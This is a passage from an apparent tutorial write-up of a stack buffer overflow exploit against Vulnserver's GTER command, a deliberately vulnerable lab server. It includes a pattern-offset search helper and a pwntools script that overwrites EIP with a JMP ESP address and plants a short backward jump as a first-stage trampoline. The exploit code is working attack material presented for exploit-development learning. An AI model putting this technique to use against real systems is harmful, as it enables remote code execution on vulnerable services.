 ~~~
    Search for str_search_pattern in pattern.
    Looking for needle in haystack
    """
    searchpattern = pattern_gen(20279)
    pattern = str_search_pattern
    if searchpattern.index(pattern) == None:
      error_and_exit("[] Error: Pattern not found")
    else:
      print(colored("[*] Pattern found at offset: "+str(searchpattern.index(pattern)),"green"))

print(pattern_gen(100))
pattern_search('\x34\x41\x63\x35\x41\x63\x36')
~~~

## 1st stage
The natural next step would be to overwrite EIP with the address to a buffer where the shellcode would be stored. Since ESP also points to our buffer, we could make EIP point to a `JMP ESP` instruction. And here, my friends, is where we face our first issue.

As you can see above, our whole buffer has only 171 bytes and ESP points to byte 155. This means we have a 20-bytes buffer to insert our payload! Since that is an insanely small buffer for virtually any shellcode, we must manage to use this space as a trampoline to another larger buffer. 

What about those 151 bytes before EIP? While this is not enough for a decent shellcode, which should count for at least 300 bytes, it is good enough for a somewhat more robust second stage.

To find an address for `JMP ESP` we can open the executable modules, pick `essfunc.dll` and search for the desired command, in this case `\xAF\x11\x50\x62`.

To jump back the 151 bytes, we may assemble the `JMP SHORT -152` instruction using [this](https://defuse.ca/online-x86-assembler.htm#disassembly) great site. The resulting opcode is `\xE9\x64\xFF\xFF\xFF`, which fortunately does not contain any NULLs.

~~~
from pwn import *

def expl():
    conn = remote('192.168.0.57', 6666, typ='tcp')
    EIP = "\xaf\x11\x50\x62"
    jmpBack = "\xe9\x64\xff\xff\xff" #did not invert bytes since it goes to the stack!
    buf = "A"*147 + EIP + jmpBack + "C"*300
    payload = "GTER /.:/" + buf + "\r\n"
    conn.send(payload)
    print(conn.recv(1024))
    conn.close()

expl()
~~~

To verify we successfully control the program flow we set a breakpoint at `\xaf\x11\x50\x62`.

![8]({{ "/assets/media/vulnserver/vulnserver_gter_8.png" | absolute_url }})
![9]({{ "/assets/media/vulnserver/vulnserver_gter_9.png" | absolute_url }})
